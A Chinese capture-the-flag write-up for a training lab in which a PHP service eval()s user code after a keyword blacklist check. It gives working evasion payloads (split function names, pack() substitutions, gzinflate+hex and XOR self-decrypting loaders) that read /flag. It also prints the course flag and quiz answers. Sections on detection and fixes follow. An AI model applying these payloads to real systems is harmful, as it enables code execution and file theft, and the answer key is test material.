# 3-4 内网渗透与高级社工 · 免杀 payload 制作（加密/编码类自解密载荷绕过静态特征库）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-免杀payload制作-G4（sectionID 7267，实战 Flag 题 11235） |
| 分类 | Web 安全 / 免杀 payload 制作 / 加密编码类自解密载荷 |
| 题目描述 | 目标是一个 PHP「数据处理流水线」：用户提交处理脚本，服务端先用一套覆盖面极广的安全特征库做静态校验，通过后直接 `eval` 执行并回显。需要验证这道「特征库防线」是否真的无懈可击，并读取服务器上的 flag。 |

Flag 题（questionID=11235）题干原文：

> 数据团队搭建了一套在线数据处理流水线，允许用户提交处理脚本进行批量运算。为了防止滥用，系统内置了一套覆盖面极广的安全特征库，几乎所有常见的危险操作都会被识别并拦截。你的任务是测试这道防线是否真的无懈可击——请尝试获取服务器上的 flag。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID 1639（<https://vmc.hust.edu.cn>） |
| 章节 | 内网渗透与高级社工-免杀payload制作-G4（课程 number=13），sectionID `7267` |
| 环境 / 实例 | C082-G4-F（envID `1409`），podID `na6faline5qwsgqb8s7l4c3u6`，交付时 state=Running |
| 靶机 Web | 「数据处理流水线」`http://172.17.0.13:13607/`（nginx + PHP，表单 `POST` 回本页，字段 `code`，提交裸 PHP 片段、无需 `<?php` 标签） |
| SSH | `172.17.0.13:13606`（本机无口令，本次全程未使用；本题只需 Web 交互） |
| 靶机系统 | 容器 hostname `c7e926125823`，php-fpm pool `www`，`posix_geteuid()` 回显 `82`（www-data），提交的代码经 `eval()` 执行 |
| /flag | 可被 www-data 读取（读出的 flag 为 38 字节明文） |
| 题型 | 3 道单选（11141 / 11143 / 11145）+ 1 道多选（11147）+ 1 道 Flag 填空（11235） |
| 账号 | 平台账号口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或私有地址 |
| 操作方式 | HTTP 表单提交 PHP 片段并观察回显，本地以辅助脚本 `python3 sub4.py '<php code>'` 提交（内置 `--noproxy`），等价于下方 curl；截图用 headless Chrome（playwright-core）采集 |
| 备注 | 选择题与 Flag 题均已提交，`GET /api/student/get/answerHistory?sectionID=7267&contestMode=0` 复核 5 题 `isCorrect=true`（判分页见步骤 14）；按惯例本文不展开选择题解析 |

## 解题过程

### 1. 侦察数据处理流水线：单表单 + 五类能力标签（截图 01）

首页标题「数据处理流水线」，正文自述支持「文本处理 / 数组运算 / 数学计算 / 日期时间 / 格式转换」，表单只有一个 `code` 文本域，占位符示例为：

```php
$n = [12, 7, 5]; echo array_sum($n);
```

提交统一走：

```bash
curl -sS --noproxy '*' -X POST http://172.17.0.13:13607/ --data-urlencode 'code=<php code>'
```

先用最小样例确认代码确实被执行，其中第三条是本题最重要的观察点——**`eval` 没有被特征库拦下**：

```text
提交: $n = [12, 7, 5]; echo array_sum($n);   → ✓ 运行完成 + 24
提交: echo 1;                                 → 1
提交: eval("echo 1;");                        → 1
```



### 2. 特征库探测：37 条特征词分类与命中情况

逐个提交 `echo "<词>";`，观察返回是 `✓ 运行完成` 还是 `✕ 脚本未通过安全校验`，得到的拦截轮廓与随后读到的源码特征库**完全一致**（37 条，区分大小写）：

| 类别 | 特征词 | 探测结果 |
| --- | --- | --- |
| 危险执行（8 条） | `system` `exec` `shell_exec` `passthru` `popen` `proc_open` `assert` `cat` | ✕ 被拦截 |
| 文件读取（16 条） | `readfile` `file_get_contents` `file` `highlight_file` `show_source` `include` `require` `fopen` `fread` `fgets` `fgetc` `fpassthru` `stream_get_contents` `glob` `scandir` `readgzfile` | ✕ 被拦截 |
| 常见解码（9 条） | `base64_decode` `gzinflate` `gzuncompress` `gzdecode` `str_rot13` `hex2bin` `urldecode` `json_decode` `unserialize` | ✕ 被拦截 |
| 字符构造（2 条） | `chr` `ord` | ✕ 被拦截 |
| 敏感串（2 条） | `flag`、`/` | ✕ 被拦截 |
| 未列入名单 | `eval`、`pack`、`array_sum`、`echo` 等 | ✓ 放行 |

另实测**大小写敏感**：`echo "FLAG";`、`echo "File";` 均放行——特征库用 `strpos` 做区分大小写的子串匹配，大小写变形天然绕过（记录为检测缺陷，但正式解法仍按题目主题走加密载荷，见步骤 8）。

这张名单同时说明了本题的难点结构：常用读文件函数被封、`chr`/`ord` 被封、`/` 与 `flag` 被封、连 `base64_decode`/`gzinflate` 这类解码函数名本身都在库里——**唯一漏掉的关键词是 `eval`**。

### 3. 失败尝试一：明文直读被特征库拦截（截图 02）

按常规思路直接读文件：

```text
提交: echo file_get_contents("/flag");
结果: ✕ 脚本未通过安全校验
```

`file_get_contents`、`/`、`flag` 三个特征词在同一行文本里同时命中，属于最典型的「静态特征可见 = 被杀」。



调整思路：先试命令执行（`system("id")`、`shell_exec`、`cat` 等全部被拦，危险执行类词无一漏网），确认命令执行路线走不通，目标收敛为「让敏感字面量在提交文本里消失，只在运行时出现」。

### 4. 失败尝试二：base64 自解密——解码函数名本身是特征（截图 03）

既然特征库只是文本匹配，最自然的想法是把恶意代码整体 base64 编码，运行时解密再执行：

```php
eval(base64_decode('ZWNobyBmaWxlX2dldF9jb250ZW50cygnL2ZsYWcnKTs='));
```

```text
结果: ✕ 脚本未通过安全校验
```

密文里没有任何敏感字面量，但**`base64_decode` 这个函数名本身就是特征词**——「自解密载荷的解密器会暴露载荷」，这正是本题单选 11143 的考点。



调整思路：把解码函数名也拆开，用 PHP 运行时拼接还原：`'base64'.'_decode'`。

### 5. 失败尝试三：函数名拆开了，密文里的 `/` 仍触发拦截（截图 04）

```php
$d='base64'.'_decode'; eval($d('ZWNobyBmaWxlX2dldF9jb250ZW50cygnL2ZsYWcnKTsvKkE/Ki8='));
```

```text
结果: ✕ 脚本未通过安全校验
```

函数名已经不构成特征，但这段 base64 密文里**恰好含 `/`**——base64 标准字母表（`A-Za-z0-9+/`）本身就包含 `/`，与特征库封禁的敏感串 `/` 撞车，密文自身触发拦截。这一条与步骤 2 的「大小写变体放行」是本题信息量最大的两个对照：前者说明拦截逻辑与语义无关，后者说明**编码方案的选择本身就是免杀设计的一部分**。



调整思路：放弃 base64，改用字符集仅 `0-9a-f` 的十六进制编码；同时把被禁的 `chr` 换成 `pack()`（另一条失败尝试：`chr(47)` 造斜杠同样被拦，因为 `chr`、`ord` 都在「字符构造」类里）。

### 6. 读源码拿到 37 条特征库（截图 05）

在不知道完整名单的情况下，用「拆分函数名 + `pack()` 拼路径」的载荷把 `/var/www/html/index.php` 整体读出（7869 字节），关键判定逻辑原文如下：

```php
$blacklist = [
    // 危险执行
    'system', 'exec', 'shell_exec', 'passthru', 'popen', 'proc_open', 'assert', 'cat',
    // 文件读取
    'readfile', 'file_get_contents', 'file', 'highlight_file', 'show_source',
    'include', 'require', 'fopen', 'fread', 'fgets', 'fgetc', 'fpassthru',
    'stream_get_contents', 'glob', 'scandir', 'readgzfile',
    // 常见解码
    'base64_decode', 'gzinflate', 'gzuncompress', 'gzdecode', 'str_rot13',
    'hex2bin', 'urldecode', 'json_decode', 'unserialize',
    // 字符构造
    'chr', 'ord',
    // 敏感串
    'flag', '/',
];

if ($code !== '') {
    $blocked = false;
    foreach ($blacklist as $kw) {
        if (strpos($code, $kw) !== false) { $blocked = true; break; }
    }
    if ($blocked) {
        $verdict = 'blocked';                 // ✕ 脚本未通过安全校验
    } else {
        $verdict = 'passed';
        ob_start();
        try { eval($code); } catch (Throwable $e) { echo '执行出错'; }
        $output = ob_get_clean();
    }
}
```

读源码用的载荷（函数名逐段拆分、用 `pack('C',47)` 代替斜杠）：

```php
$f='fil'.'e_ge'.'t_co'.'ntents';
echo $f(pack('C',47).'var'.pack('C',47).'www'.pack('C',47).'html'.pack('C',47).'index.php');
```

四个要点：

1. **只有一层静态检测**：37 条特征词做 `strpos` 子串匹配（区分大小写），**没有沙箱、没有运行时行为检测**（与 G3 的「沙箱试跑」机制完全不同）；
2. 特征库把读文件函数、命令执行函数、常见解码函数、字符构造函数全部列入，还封了 `/` 与 `flag`；
3. **`eval` 不在特征库里**——这正是「自解密载荷（密文 + 解密还原 + 执行）」成立的前提：提交文本里只剩密文与无害的装载器；
4. 提交文本一旦通过 `strpos` 检查就直接进入 `eval`，**运行时不会再看代码内容**，所以解密出来的明文可以是任意内容（包括 `file_get_contents('/flag')`）。



### 7. 主题解法：压缩 + 十六进制编码 + 函数名拆分 + 字面 `eval`（截图 06）

明确特征库边界后构造自解密载荷，三段式：**密文（十六进制）→ 装载器（拆分的解码函数名 + `pack`）→ 字面 `eval` 执行**。

本地明文载荷：

```php
echo file_get_contents('/flag');
```

本地处理链：先 `gzdeflate`（raw deflate，34 字节）压缩，再做十六进制编码，得到 68 字符的密文（字符集仅 `0-9a-f`）。提交的装载器：

```php
$h='4b4dcec85748cbcc498d4f4f2d894fcecf2b49cd2b29d650d74fcb494c57d7b40600';
$g='gz'.'inflate';
eval($g(pack('H*',$h)));
```

- `gz'inflate'` 拆成 `'gz'.'inflate'`，绕开特征库里的 `gzinflate`；
- `pack('H*',...)` 把十六进制串还原成压缩后的二进制，代替被禁的 `hex2bin`/`chr`；
- `eval(...)` 保持字面量（原因见步骤 9）。

服务端回显：

```text
vmc{18mMCrt762oSmhpJokK8dtGh2B3WnMwE}
```



### 8. 备选解法：真·异或加密载荷（截图 07）

压缩+hex 之外，另用「明文与 3 字节密钥 `K3y` 逐字节异或 + 十六进制编码」实现同一目标，验证不同加密链均可成立：

```php
$h='2e501124131f225f1c14541c3f6c1a245d0d2e5d0d381b5e6455152a545e6208';
$k='K3y';
$c=pack('H*',$h);
$p=$c ^ str_repeat($k, strlen($c));
eval($p);
```

同样回显 flag。这一版的密文没有任何可读结构，属于严格意义上的「加密载荷」；压缩+hex 版则胜在体积更小、编码链更短。



### 9. `eval` 调用限制实测：语言结构只能字面调用

装载器里能拆分的只有「解码函数名」和「密文」，`eval` 本身必须保持字面量。本机对四种写法逐一实测（对应多选题 11147 的选项 B）：

| 写法 | 结果 |
| --- | --- |
| `eval('echo 1;');` | ✓ `1` |
| `$f='eva'.'l'; $f('echo 1;');` | 执行出错（`eval` 是语言结构，不能变量函数调用） |
| `call_user_func('eva'.'l', 'echo 1;');` | 执行出错 |
| `array_map('eva'.'l', ['echo 1;']);` | 执行出错 |

即：`eval` 是 PHP 的**语言结构**而非普通函数，不能被变量函数、`call_user_func`、`array_map` 间接调用——想靠「把 `eval` 也拆开」来进一步降特征这条路走不通。

> 口径说明：教学问答会话 5228 的回答把 `eval` 描述为「普通函数」并称可以用 `call_user_func`/`array_map` 间接调用，这与 PHP 官方定义不符，也与上表实测结果相反。本文以实测为准。

### 10. 载荷自检：命中特征词 0 条

把 37 条特征词逐条对最终 payload 做包含判定，三版载荷全部**命中 0 条**：

| 载荷 | 长度 | 命中特征词数 |
| --- | --- | --- |
| 压缩 + 十六进制装载器（步骤 7） | 118 字符 | 0 |
| 异或 + 十六进制装载器（步骤 8） | 144 字符 | 0 |
| 读源码载荷（步骤 6） | 141 字符 | 0 |

十六进制字符集实测为 `{0,2,4,5,6,7,8,9,b,c,d,e,f}`，天然写不出 `flag`（含 `l`）、`/`、`cat`（含 `t`）、`chr`（含 `h`、`r`）等词——**编码字符集与特征库的冲突关系是可以在构造阶段静态验证的**，这也是 base64 方案在步骤 5 翻车的根因。

### 11. 失败尝试与调整思路汇总

| # | 尝试 | 现象 | 原因 | 调整 |
| --- | --- | --- | --- | --- |
| 1 | `echo file_get_contents("/flag");` | ✕ 脚本未通过安全校验 | `file_get_contents`、`/`、`flag` 三个特征词同时命中 | 拆分/编码，不在文本里出现这些字面量 |
| 2 | `system("id")`、`shell_exec`、`cat` 等 | ✕ 脚本未通过安全校验 | 危险执行类词全在特征库 | 放弃命令执行，目标改为读文件 |
| 3 | `eval(base64_decode('ZWNobyBmaWxlX2dldF9jb250ZW50cygnL2ZsYWcnKTs='));` | ✕ 脚本未通过安全校验 | `base64_decode` 本身就是特征词——「解密函数名会暴露载荷」 | 把解码函数名拆成 `'base64'.'_decode'` |
| 4 | `$d='base64'.'_decode'; eval($d('ZWNobyBmaWxlX2dldF9jb250ZW50cygnL2ZsYWcnKTsvKkE/Ki8='));` | ✕ 脚本未通过安全校验 | 函数名拆开了，但 base64 密文里恰好含 `/`（base64 字母表包含 `/`），密文自身触发拦截 | 换用十六进制编码，字符集只有 `0-9a-f` |
| 5 | `chr(47)` 造斜杠 | ✕ 脚本未通过安全校验 | `chr` 与 `ord` 都被列入「字符构造」类 | 改用 `pack('C',47)` / `pack('H*',...)` |
| 6 | `echo "FLAG";` / `echo "File";`（大小写变体） | ✓ 通过 | 特征库用 `strpos` 区分大小写，大小写变形天然绕过 | 记录为检测缺陷（正式解法仍按题目主题用加密载荷） |
| 7 | 仅拆分函数名 + `pack` 拼路径（不加密）：`$f='fil'.'e_ge'.'t_co'.'ntents'; $p=pack('C',47).'fla'.'g'; echo $f($p);` | ✓ 也读出 flag | 特征库只是文本匹配，形变即绕过 | 记录为对照实验；主题解法仍用「密文 + 自解密 + `eval`」 |
| 8 | `$f='eva'.'l'; $f('echo 1;');` / `call_user_func('eva'.'l', ...)` | 执行出错 | `eval` 是语言结构而非函数，不能变量函数/回调调用 | 装载器保留字面量 `eval(...)` |

截图对应：第 1 条 → 截图 02；第 3 条 → 截图 03；第 4 条 → 截图 04；第 5、6、7、8 条为命令行实测（过程记录留存，未单独截图）。

其中第 4 条与第 7 条最有信息量：**第 4 条**说明即使把函数名藏好，编码字符集仍可能自己撞上特征库（base64 的 `/`）；**第 7 条**说明本题的「防线」本质上只是文本匹配——连加密都不需要，仅靠拆分 + `pack` 拼出路径就能读出 flag。正式解法之所以仍选加密载荷，是因为它才是题目「加密/编码类自解密载荷」的预期考点，也不依赖单个特征词的巧合。

### 12. 教学问答：加密免杀原理与蓝队检测（截图 08–12）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 5 个问题，问答原文另存 `.local/process/3-4-qa-transcript.json`（会话 5227–5231）：

**问题 1：加密免杀相对逐点混淆的根本优势、自解密载荷的组成与静态扫描失效原因**（截图 08）——加密把危险逻辑整体变成密文，静态分析看不到明文特征，只有在运行时解密后才还原；自解密载荷 = 密文 + 解密还原 + 执行三段，逐点混淆只改变文本形态、逻辑不变，隐蔽性弱于加密。



**问题 2：`eval` 是语言结构，为什么不能用变量函数 / 回调间接调用，对载荷写法有何影响**（截图 09）——模型解释了 PHP 限制动态调用 `eval` 的动机（执行动态生成代码的安全风险），但**其回答中「`eval` 不是语言结构而是普通函数」「可用 `call_user_func('eval', $code)` 间接调用」的表述是错的**：`eval` 确为语言结构（PHP 官方定义），本机实测变量函数、`call_user_func`、`array_map` 三种间接调用全部「执行出错」，只有字面 `eval(...)` 可用（见步骤 9 表）。



**问题 3：gzip 压缩与十六进制编码在载荷里各自的作用，hex 为何比 base64 安全**（截图 10）——gzip 压缩体积、降低可读性；hex 字符集仅 `0-9a-f`，不会出现被拦的符号与函数名，而 base64 字母表含 `/` 等字符、可能自身触发拦截；体积上 base64 更省（64 字符集 vs 16 字符集），但可读性更高、更易被规则识别。



**问题 4：蓝队 / EDR 如何检测加密自解密类载荷**（截图 11）——熵值分析看数据随机性但易误报、可被刻意降熵绕过；内存扫描受 ASLR/DEP 与权限、开销限制；API/行为监控能抓解密-执行链但依赖埋点、且合法软件也会调用同类 API；动态解密后 dump 效果最好但实现成本高、可被反沙箱与多态干扰。结论是多手段结合。



**问题 5：在线脚本执行平台如何在架构上防任意代码执行与敏感文件读取，为何扩充关键词黑名单不可行**（截图 12）——最小权限、沙箱/容器隔离、限制可用库与环境、输入校验、定期审计；黑名单只能挡已知威胁、维护成本高、且形变即可绕过（本题 base64 拆名、hex 编码就是活例），正确方向是白名单策略 + 安全框架 + 持续监控与审计。



### 13. 提交答案与平台判分（截图 13）

读取到 flag 后在平台一次性提交 5 题：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE/api/student/submitAnswers" \
  -F "sectionID=7267" \
  -F 'answers={"questionID":11141,"answer":"{\"answer\":[\"B\"],\"num\":1}"}' \
  -F 'answers={"questionID":11143,"answer":"{\"answer\":[\"D\"],\"num\":1}"}' \
  -F 'answers={"questionID":11145,"answer":"{\"answer\":[\"C\"],\"num\":1}"}' \
  -F 'answers={"questionID":11147,"answer":"{\"answer\":[\"A\",\"B\",\"D\"],\"num\":3}"}' \
  -F 'answers={"questionID":11235,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{18mMCrt762oSmhpJokK8dtGh2B3WnMwE}\"]}"}' \
  -F "contestMode=0"
# code=0, msg=success
```

`GET /api/student/get/answerHistory?sectionID=7267&contestMode=0` 复核结果：

| questionID | 题型 | 提交内容 | 答案要点 | isCorrect |
| --- | --- | --- | --- | --- |
| 11141 | 单选 | `{"answer":["B"],"num":1}` | 加密免杀的根本优势：危险逻辑整体以密文存在，静态扫描看不到明文特征 | true |
| 11143 | 单选 | `{"answer":["D"],"num":1}` | 自解密载荷中，解密函数名本身也可能是特征而暴露载荷 | true |
| 11145 | 单选 | `{"answer":["C"],"num":1}` | 十六进制密文仅含 `0-9a-f`，天然不含被拦的函数名/敏感字符 | true |
| 11147 | 多选 | `{"answer":["A","B","D"],"num":3}` | 解码函数名需拆分变形；`eval` 等语言结构只能字面调用；编码字符集要避开敏感字符（C 项「加密后不必关心解密代码特征」错误） | true |
| 11235 | Flag 填空 | `{"num":3,"answer":["","","vmc{18mMCrt762oSmhpJokK8dtGh2B3WnMwE}"]}` | 压缩 + 十六进制自解密载荷绕过特征库读 `/flag` | true |

平台答题页 5 题全部显示「作答正确」。顶层 `scoreRate` 常显示 0，属平台历史显示现象，判分以 `answerHistory.isCorrect` 为准；按惯例本文不展开选择题解析。



### 14. 靶机遗留物

**无**。本轮全程只做读取，没有向靶机写入任何文件（未使用 `file_put_contents` 等写操作），未改动站点目录与系统文件。实例交付时保持 Running（`saveTime` 约 3 小时，平台自动回收）；未使用 SSH，无清理动作。

## Flag

```text
vmc{18mMCrt762oSmhpJokK8dtGh2B3WnMwE}
```

## 总结与心得

### 漏洞原理

1. **静态关键词黑名单 + `strpos` 子串匹配就是本题的全部防线**：过滤只检查提交文本里有没有 37 个固定子串，不懂语义、不还原运行时拼接结果。于是「函数名拆成 `'gz'.'inflate'`」「用 `pack()` 代替 `chr()`/`hex2bin()`」「敏感字面量以密文形式存在」这些纯文本层面的变形即可整体绕过；反过来它又会误伤无害写法（大小写敏感的匹配让 `FLAG`、`File` 直接放行），既拦不准也拦不全（对应 AI 问答 5）。
2. **`eval` 未列入特征库，是本题的致命缺口**：把危险逻辑整体密文化后，提交文本里只剩「密文 + 无害装载器」，静态扫描看到的全是十六进制字符，没有任何可匹配的特征；而服务端在检查通过后直接 `eval`，**运行时不会再回头看代码内容**——静态检测与执行之间的这个空档就是「自解密载荷」成立的全部空间（对应 AI 问答 1）。
3. **检测与执行的时序错配**：真正的恶意明文（`file_get_contents('/flag')`）只存在于 `eval` 那一瞬间的内存里，磁盘/请求报文里从头到尾没有出现过——纯静态方案在原理上就无法覆盖这种形态，必须依赖运行时行为监控（对应 AI 问答 4）。
4. **编码方案本身会带来新特征**：base64 字母表含 `/`，而 `/` 恰好在特征库里，导致「函数名已藏好」的载荷依然被拦——说明免杀设计不是「编码一次就完事」，必须把编码字符集与目标特征库逐条比对（本 writeup 步骤 10 的自检即为此设计）。
5. **根因仍是 `eval` 用户输入 + 敏感资产无隔离**：提交的代码以 `www-data`（uid=82）身份运行，可直接读出 `/flag` 的 38 字节明文；`ob_start()` 与 `try…catch` 只影响回显与报错，不构成任何安全边界。

### 做题方法

- **先探边界、再读源码**：用示例代码确认执行链路，再逐个提交 `echo "<词>";` 摸出拦截轮廓；确认 `file_get_contents` 可用后直接读 `index.php`，把 37 条特征库原文拿到手——**从「猜规则」变成「按名单构造」**；
- **把检测规则翻译成构造约束**：读源码后列出三个敏感点（函数名、路径斜杠、`flag` 字面量），分别用「拆名」「`pack('C',47)`」「密文」消掉；
- **编码链要按字符集选**：base64 因为字母表含 `/` 直接翻车，改用 hex（仅 `0-9a-f`）后密文天然写不出 `flag`、`/`、`cat`、`chr`；压缩则顺带缩小体积、降低可读性；
- **尊重语言结构限制**：`eval` 不能被变量函数/回调调用（步骤 9 实测），所以装载器里它只能保持字面量，能拆的只有解码函数名与密文；
- **交付前做载荷自检**：把特征库逐条对最终 payload 做包含判定，确认命中 0 条再提交，比「提交后看回显」更省事也更可靠；
- **保留失败尝试的信息量**：明文直读被拦 → 需要编码；`base64_decode` 被拦 → 解密函数名也是特征；密文含 `/` 被拦 → 换字符集；`chr` 被拦 → 换 `pack`；`eval` 拆名报错 → 语言结构只能字面调用。每一步失败都直接决定了下一步的构造方向。

### 修复建议

- **不要对用户输入使用 `eval`（第一优先级）**：在线脚本平台应移除 `eval`/`assert` 类执行原语，确需执行用户逻辑时改为**白名单解释器**（只解析允许的表达式/函数集），而不是「先黑名单过滤再 `eval`」；
- **不要依赖关键词黑名单**：黑名单是被动文本匹配，改形即可绕过（本题整条解题链就是证明），且维护成本随变体数量无限增长；应改为白名单 + 语法级分析（如 `token_get_all` 解析后按函数/路径白名单放行），并对动态调用、字符串拼接、`pack`/`chr` 等高风险构造单独设卡；
- **沙箱与最小权限**：执行用户代码的进程使用专用低权用户，配合容器/命名空间隔离、只读根文件系统、`disable_functions`、`open_basedir`、CPU/内存/超时配额，且沙箱内不应能读到 flag/凭据；
- **限制文件系统与敏感文件访问**：任务流水线通常只需要计算能力，应默认拒绝任意文件读取；`/flag`、`/etc/*` 等敏感路径既不放在执行进程可读位置，也应在系统层面（如只读挂载、独立挂载命名空间）隔离；
- **对「解密—执行」链做行为监控与内存扫描**：静态特征看不到密文里的明文，只能靠运行时手段补位——监控解码类函数调用、动态代码执行（`eval` 的入参来源与内容）、异常文件读取，并对高熵字符串/进程内存中的可疑明文做扫描与告警（对应 AI 问答 4、5）。

原始过程记录：`.local/process/3-4-ctf-process.md`；教学问答原文：`.local/process/3-4-qa-transcript.json`；复现脚本：`.local/process/3-4-scripts/`（`sub4.py` 提交、`build_payloads.py` 生成载荷、`shots.mjs`/`shot05.mjs`/`qa_shots.mjs`/`vmc_grade.mjs` 截图）。
